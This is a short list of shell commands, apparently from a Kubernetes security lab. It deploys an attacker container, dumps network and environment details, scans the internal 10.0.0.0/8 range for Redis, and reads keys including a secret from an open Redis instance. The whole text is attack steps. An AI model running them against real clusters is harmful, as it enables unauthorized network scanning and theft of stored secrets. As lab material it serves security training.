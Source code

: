 kubectl run -it hacker-container --image=madhuakula/hacker-container -- sh
ip route

ifconfig
printenv

zmap -p 6379 10.0.0.0/8 -o results.csv
nmap -p 6379 10.0.0.0/8

redis-cli -h 10.12.0.2
> KEYS *
> GET SECRETSTUFF



